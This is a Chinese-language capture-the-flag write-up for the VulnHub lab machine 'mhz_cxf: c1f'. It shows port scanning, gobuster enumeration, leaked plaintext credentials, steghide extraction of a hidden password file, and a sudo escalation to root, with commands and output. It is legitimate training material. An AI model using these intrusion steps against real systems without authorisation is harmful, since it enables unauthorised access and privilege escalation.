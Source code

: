 # mhz_cxf: c1f

2024-6-13 https://www.vulnhub.com/entry/mhz_cxf-c1f,471/

difficulty: Beginner

## IP

192.168.5.40

## Scan

Open Port -> 22,80

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 38d93f98159acc3e7a448df94d78fe2c (RSA)
|   256 894e387778a4c36ddc39c400f8a567ed (ECDSA)
|_  256 7c15b918fc5c75aa3096154608a983fb (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

80 首页没什么信息，源码也没有提示。使用 gobuster 进行扫描:

```
gobuster -t 32 dir -u http://192.168.5.40/ -k -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,txt,html,rar,zip,sql,bak -e

http://192.168.5.40/notes.txt
```

看看 /notex.txt 有什么信息，提示 2 个文件: remb.txt and remb2.txt

remb.txt 中发现用户名：

```
first_stage:flagitifyoucan1234
```

尝试使用 ssh 进行登陆，可以登陆。

发现 user flag：

```
first_stage@mhz_c1f:~$ cat user.txt
HEEEEEY , you did it
that's amazing , good job man

so just keep it up and get the root bcz i hate low privileges ;)

#mhz_cyber
```

进入到另外一个用户目录/home/mhz_c1f 发现有一个 Paintings 文件夹，里面有 4 张图片，将其拷贝到 kali 上，根据靶场描述，有图片隐写，进行相关查看。

exiftool 查看没有发现注释等信息。

steghide 发现有捆绑：

```
steghide info 'spinning the wool.jpeg'

Enter passphrase:
  embedded file "remb2.txt":
    size: 85.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes

steghide extract -sf 'spinning the wool.jpeg'

不用输入密码，直接提取
```

```
cat remb2.txt
ooh , i know should delete this , but i cant' remember it
screw me

mhz_c1f:1@ec1f
```

获得 mhz_c1f 的密码 1@ec1f，su 切换到该用户。

sudo -l 发现是 ALL，可以直接提权了:

```
sudo su

root@mhz_c1f:~# id
uid=0(root) gid=0(root) groups=0(root)
root@mhz_c1f:~# ls -al
total 32
drwx------  3 root root 4096 Apr 24  2020 .
drwxr-xr-x 24 root root 4096 Apr 13  2020 ..
-rw-------  1 root root   54 Apr 24  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  124 Apr 24  2020 .root.txt
drwx------  2 root root 4096 Apr 13  2020 .ssh
-rw-------  1 root root  833 Apr 24  2020 .viminfo
root@mhz_c1f:~# cat .root.txt
OwO HACKER MAN :D

Well done sir , you have successfully got the root flag.
I hope you enjoyed in this mission.

#mhz_cyber
```
